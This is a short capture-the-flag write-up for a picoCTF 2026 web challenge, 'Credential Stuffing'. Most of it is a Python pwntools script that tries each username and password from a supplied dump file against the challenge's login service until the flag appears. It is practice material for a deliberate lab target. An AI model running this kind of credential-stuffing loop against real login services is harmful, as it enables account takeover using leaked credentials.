


# Credential Stuffing — Pico CTF 2026

> **Room / Challenge:** Credential Stuffing (Web)

---

## Metadata

- **CTF:** Pico CTF 2026
- **Challenge:** Credential Stuffing (web)
- **Target / URL:** `https://play.picoctf.org/events/79/challenges/749?category=1&page=1`

---

## Goal

Brute-force the user accounts to get the flag.

## My Solution

Based on the file `creads-dump.txt` given, we have a base of username/password to brute-force the app.



Automated script:

```python
from pwn import *

host = 'crystal-peak.picoctf.net'
port = 53697

def solve():
    try:
        with open('creds-dump.txt', 'r') as f:
            lines = f.readlines()
    except FileNotFoundError:
        print("NOT FOUND FILE")
        return

    for line in lines:
        line = line.strip()
        if not line or ';' not in line:
            continue

        username, password = line.split(';')
        print(f"Attempting login: {username} / {password}")

        try:
            io = remote(host, port, level='error')

            io.sendlineafter(b'Username: ', username.encode())
            io.sendlineafter(b'Password: ', password.encode())

            result = io.recvall(timeout=1)
            if b"picoCTF{" in result:
                print(f"\nFLAG FOUND: {result.decode().strip()}")
                io.close()
                return

            io.close()
        except Exception as e:
            print(f"Error for {username}: {e}")

if __name__ == "__main__":
    solve()
```


